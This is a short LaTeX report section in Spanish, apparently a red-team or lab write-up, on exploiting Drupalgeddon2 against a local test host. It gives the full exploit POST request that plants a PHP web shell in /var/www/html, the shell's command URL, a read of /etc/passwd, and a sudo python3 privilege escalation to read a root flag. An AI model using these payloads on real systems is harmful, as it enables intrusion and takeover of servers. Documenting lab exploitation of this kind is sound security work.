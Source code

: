 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{Ejecución del Ataque (Cadena de Explotación)}
El proceso de intrusión se automatizó mediante un exploit en Python que recrea la cadena de explotación de Drupalgeddon2:
\begin{enumerate}
    \item \textbf{Inyección de Backdoor vía Drupalgeddon2}: \\
    El script atacante envió una petición POST estructurada al puerto 8080 del host objetivo:
    \texttt{POST /user/register?element\_parents=account/mail/\%23value\&ajax\_form=1\&\_wrapper\_format=drupal\_ajax} \\
    El cuerpo de la petición contenía parámetros formateados para abusar de la renderización AJAX:
    \begin{quote}
        \texttt{form\_id=user\_register\_form\&\_drupal\_ajax=1\&mail[\#post\_render][]=exec\&mail[\#type]=markup\&mail[\#markup]=echo '<?php system(\$\_GET["cmd"]); ?>' > /var/www/html/backdoor.php}
    \end{quote}
    Esto provocó que el servidor web interpretara la directiva de renderizado e invocara \texttt{exec} con la orden de inyectar una web shell mínima llamada \texttt{backdoor.php} en el directorio de acceso público \texttt{/var/www/html/}.
    \item \textbf{Establecimiento del Canal Command \& Control (C2)}: \\
    Una vez verificada la existencia de \texttt{backdoor.php}, el Red Team pudo interactuar con la shell haciendo peticiones HTTP GET estructuradas: \\
    \texttt{http://127.0.0.1:8080/backdoor.php?cmd=<comando>}
    \item \textbf{Exfiltración de Datos de Sistema}: \\
    Mediante la ejecución del comando \texttt{cat /etc/passwd}, se obtuvo un volcado de la estructura de usuarios locales.
    \item \textbf{Escalada de Privilegios}: \\
    Al ejecutar \texttt{sudo -l}, el Red Team descubrió una vulnerabilidad de configuración crítica: \\
    \texttt{User www-data may run the following commands on public-agency-server: (root) NOPASSWD: /usr/bin/python3} \\
    Esta directiva en el archivo \texttt{/etc/sudoers} permite al usuario de bajos privilegios \texttt{www-data} ejecutar cualquier script de Python como superusuario (\texttt{root}) sin ingresar contraseña. El Red Team explotó este camino enviando el comando: \\
    \texttt{sudo python3 -c "import os; os.system('cat /root/flag\_root.txt')"} \\
    Logrando acceso completo al archivo restringido del administrador y comprometiendo por completo la máquina.
\end{enumerate}
\end{document}
